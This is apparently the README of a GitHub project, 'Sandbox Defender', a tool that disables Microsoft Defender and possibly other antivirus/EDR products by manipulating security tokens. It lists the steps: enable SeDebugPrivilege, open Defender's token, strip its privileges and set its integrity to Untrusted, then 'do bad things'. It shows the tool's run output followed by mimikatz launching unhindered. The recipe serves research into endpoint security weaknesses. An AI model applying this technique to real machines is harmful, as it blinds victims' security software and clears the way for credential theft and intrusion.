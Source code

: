 # Sandbox Defender

Sandboxing Defender (and probably other AV/EDRs) using Security Token manipulation.

If you do use any of the code in these repositories **keep it legal!**

# Introduction

This code was written after reading [Sandboxing Antimalware Products for Fun and Profit](https://elastic.github.io/security-research/whitepapers/2022/02/02.sandboxing-antimalware-products-for-fun-and-profit/article/) by **Elastic Security Research**. I am a little bit late to the party it would seem, the article was made public on the 02/02/22 (3 days ago as of writing), and [Martin Ingesens' TokenStomp](https://github.com/MartinIngesen/TokenStomp) was posted 04/02/22. MUST code faster!

Anyway, writing this code was fun.

The technique is very simple:

- Enable the `SeDubgPrivilege` in our process security token.
- Get a handle to Defender using `PROCESS_QUERY_LIMITED_INFORMATION`.
- Get a handle to the Defender token using `TOKEN_ALL_ACCESS`.
- Disable all privileges in the token using `SetPrivilege`
- Set the Defender token Integrity level to Untrusted.
- Do bad things... legally of course!

The main part of the code is [here](https://github.com/plackyhacker/SandboxDefender/blob/main/SandboxDefender/Program.cs)

# Example

Execution of the code is shown below (then executing mimikatz after defender is sandboxed):

```
.\SandboxDefender.exe
[+] Getting a token handle for this process.
[+] Token handle: 0x2EC
[+] Enabling SeDebugPrivilege.
[+] SeDebugPrivilege enabled.
[+] Defender PID: 5212
[+] Getting a process handle for Defender.
[+] Process handle: 0x2F0
[+] Getting a token handle for the Defender process.
[+] Token handle: 0x2F4
[+] Will disable Defender privileges.
[+] Will set Defender Integrity to Untrusted.
[+] Done... Have a nice day!

.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

# Nice Pictures

This is Defender before the sandboxing (in Process Hacker):

![pre](https://github.com/plackyhacker/SandboxDefender/blob/main/images/pre.png?raw=true)

This is Defender afetr the sandboxing (in Process Hacker):

![pre](https://github.com/plackyhacker/SandboxDefender/blob/main/images/post.png?raw=true)
